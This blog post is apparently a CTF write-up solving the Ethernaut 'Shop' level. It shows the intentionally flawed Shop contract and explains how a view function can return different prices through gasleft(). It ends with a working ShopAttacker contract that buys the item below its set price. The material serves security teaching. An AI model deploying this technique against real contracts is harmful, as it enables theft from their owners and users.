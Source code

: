 ```yaml
---
title: Ethernaut - Shop - Solution
date: '2024-05-14'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Shop CTF
---
```


# Ethernaut - Shop - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

## Solution

The goal is to get the `buy()` function to set the `price` to a value smaller than 100.

Note that this level is very similar to [Elevator](https://www.marcobesier.xyz/blog/ethernaut-solutions/elevator).

Here, however, we have the additional complication that our `price()` function must be a `view` function.
In other words, we are not allowed to implement any state-changing logic inside `price()` as we did in the Elevator solution.

Nonetheless, we can still craft a `price()` function that returns different values each time it is called by using `gasleft()`!

In a first attempt, we might try to have `price()` simply returning `gasleft()`, hoping that `gasleft()`'s value will be >= 100 when called the first time and < 100 when called the second time.
Going with this approach, we will observe that the attack will fail since the value of `gasleft()` after the second call to `price()` is still quite a bit higher than 100.
After some more experimentation, however, it's easy to subtract a suitable value from `gasleft()` such that `price()` has the desired behaviour.

For example, the following implementation will return a price > 100 when called the first time and a price of 42 when called the second time.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IShop {
    function buy() external;
}

contract ShopAttacker {
    IShop public immutable VICTIM;

    constructor(address victim) {
        VICTIM = IShop(victim);
    }

    function attack() external {
        VICTIM.buy();
    }

    function price() external view returns (uint256) {
        return gasleft() - 3714;
    }
}
```
